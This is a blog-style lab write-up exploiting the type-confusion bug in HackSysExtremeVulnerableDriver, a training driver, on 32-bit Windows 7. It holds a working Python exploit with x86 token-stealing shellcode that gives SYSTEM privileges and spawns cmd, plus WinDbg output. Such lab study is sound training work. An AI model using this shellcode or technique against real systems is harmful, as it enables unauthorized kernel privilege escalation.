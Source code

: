 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver TypeConfusion
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code as python script file.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*4 + "B"*4
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x222023,buf,buflen,None,0,byref(c_ulong()),None)
```

Let's trigger the vulnerability.
```
****** HACKSYS_EVD_IOCTL_TYPE_CONFUSION ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x86CB4550
[+] UserTypeConfusionObject: 0x01B1B634
[+] KernelTypeConfusionObject: 0x86CB4550
[+] KernelTypeConfusionObject Size: 0x8
[+] KernelTypeConfusionObject->ObjectID: 0x41414141
[+] KernelTypeConfusionObject->ObjectType: 0x42424242
[+] Triggering Type Confusion
[+] KernelTypeConfusionObject->Callback: 0x42424242
[+] Calling Callback
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_TYPE_CONFUSION ******
```
We find that a Exception has been catch beacase of trying to call a illegal Addr at TypeConfusionObjectInitializer method.
![](/assets/img/exploit/2018-08-08-hacksys-extreme-vulnerable-driver-typeconfusion/0x001.png)


## 0x002 Exploit it!

By reading the source code, I get a structure. We may set the ObjectType with our shellcode Addr.
```
typedef struct _USER_TYPE_CONFUSION_OBJECT {
	ULONG ObjectID;
	ULONG ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;
```

Compared with the previous challenge, this is relatively simple. Enjoy our exploit~
```
import sys,struct
from ctypes import *
from subprocess import *

def main():
	kernel32 = windll.kernel32
	hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

	if not hevDevice or hevDevice == -1:
		print "[-] Couldn't get Device Driver handle."
		sys.exit(0)
	
	shellcode = ""
	shellcode += bytearray(
		"\xcc"
		"\x60"                            # pushad
		"\x31\xc0"                        # xor eax,eax
		"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
		"\x8B\x80\x50\x01\x00\x00"        # mov eax,[eax+0x150]
		"\x89\xc1"                        # mov ecx,eax
		"\xba\x04\x00\x00\x00"            # mov edx,0x4
		"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
		"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
		"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
		"\x75\xed"                        # jnz 0x1a
		"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
		"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
		"\x61"                            # popad
		"\x5d"                            # pop ebp
		"\xc2\x08\x00"                    # ret 0x8
	)

	ptr = kernel32.VirtualAlloc(c_int(0),c_int(len(shellcode)),c_int(0x3000),c_int(0x40))
	buff = (c_char * len(shellcode)).from_buffer(shellcode)
	kernel32.RtlMoveMemory(c_int(ptr),buff,c_int(len(shellcode)))
	shellcode_final = struct.pack("<L",ptr)

	buf = "A"*4 + shellcode_final
	buflen = len(buf)

	kernel32.DeviceIoControl(hevDevice,0x222023,buf,buflen,None,0,byref(c_ulong()),None)

	Popen("start cmd",shell=True)

if __name__ == "__main__":
	main()
```

pwn~
```
****** HACKSYS_EVD_IOCTL_TYPE_CONFUSION ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x8
[+] Pool Chunk: 0x86C9E838
[+] UserTypeConfusionObject: 0x01BC18F4
[+] KernelTypeConfusionObject: 0x86C9E838
[+] KernelTypeConfusionObject Size: 0x8
[+] KernelTypeConfusionObject->ObjectID: 0x41414141
[+] KernelTypeConfusionObject->ObjectType: 0x00380000
[+] Triggering Type Confusion
[+] KernelTypeConfusionObject->Callback: 0x00380000
[+] Calling Callback
Breakpoint 0 hit
HEVD!TypeConfusionObjectInitializer+0x20:
96e98742 83c40c          add     esp,0Ch
kd> u 0x00380000 L1a
00380000 cc              int     3
00380001 60              pushad
00380002 31c0            xor     eax,eax
00380004 648b8024010000  mov     eax,dword ptr fs:[eax+124h]
0038000b 8b8050010000    mov     eax,dword ptr [eax+150h]
00380011 89c1            mov     ecx,eax
00380013 ba04000000      mov     edx,4
00380018 8b80b8000000    mov     eax,dword ptr [eax+0B8h]
0038001e 2db8000000      sub     eax,0B8h
00380023 3990b4000000    cmp     dword ptr [eax+0B4h],edx
00380029 75ed            jne     00380018
0038002b 8b90f8000000    mov     edx,dword ptr [eax+0F8h]
00380031 8991f8000000    mov     dword ptr [ecx+0F8h],edx
00380037 61              popad
00380038 5d              pop     ebp
00380039 c20800          ret     8
```
![](/assets/img/exploit/2018-08-08-hacksys-extreme-vulnerable-driver-typeconfusion/0x002.png)